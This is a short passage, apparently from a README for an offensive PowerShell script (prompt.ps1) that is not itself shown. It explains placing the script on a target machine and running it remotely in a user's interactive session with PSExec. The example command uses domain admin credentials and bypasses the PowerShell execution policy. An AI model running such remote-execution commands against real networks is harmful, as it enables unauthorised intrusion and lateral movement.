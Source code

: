 Place this script on the target machine (for example inside a shared folder) and execute it remotly with PSExec.

You can get the $SESSION_ID with `query user` command.

```
.\PSExec64.exe -i $SESSION_ID \\TARGET_IP -u "corp.local\admin" -p "P@asswd" powershell -ep bypass -File C:\Shared\prompt.ps1
```
